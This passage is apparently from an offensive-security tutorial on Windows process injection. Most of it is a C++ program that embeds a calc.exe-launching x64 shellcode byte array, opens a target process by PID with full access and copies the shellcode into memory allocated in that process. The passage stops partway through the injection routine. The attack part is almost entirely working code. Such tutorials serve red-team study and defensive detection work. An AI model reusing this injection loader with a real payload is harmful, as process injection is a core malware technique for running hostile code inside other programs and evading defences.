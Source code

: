 ### C++ Shellcode Injection Payload

Using the above mentioned Windows APIs, we can create our C++ payload to perform shellcode injection (compiled with Visual Studio):
```cpp
#include <windows.h>
#include <stdio.h>

// Calc.exe shellcode
unsigned char shellcode[] = {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,
  0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,
  0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
  0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,
  0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
  0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
  0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
  0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,
  0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
  0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,
  0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
};

unsigned int shellcode_len = sizeof(shellcode);

int main(int argc, char* argv[])
{
    void* exec_buffer; // memory buffer for shellcode
    BOOL rv;
    HANDLE th, proc;
    DWORD oldprotect = 0;

    if (argc < 2) {
        printf("Please enter a process ID (PID) to target.");
        return 0;
    }

    // Get target process ID (PID) from command-line arg
    DWORD PID = atoi(argv[1]);
    printf("PID = %i", PID);

    // Open handle to target process
    proc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    
    // Allocate buffer for shellcode in remote process
    exec_buffer = VirtualAllocEx(proc, NULL, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    printf("[i] Allocated Memory At : 0x%p\n", exec_buffer);

    // Copy shellcode to remote process buffer
    WriteProcessMemory(proc, exec_buffer, shellcode, shellcode_len, NULL);
```